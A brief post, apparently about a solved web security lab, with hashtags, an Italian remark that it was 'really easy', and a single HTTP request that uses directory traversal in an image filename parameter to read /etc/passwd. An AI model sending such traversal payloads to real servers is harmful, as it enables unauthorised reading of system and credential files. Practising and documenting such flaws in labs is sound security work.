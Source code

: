 
#websecurity #webexploitation 

davvero easy :)

`GET /image?filename=/var/www/images/../../../../../../../etc/passwd HTTP/2`

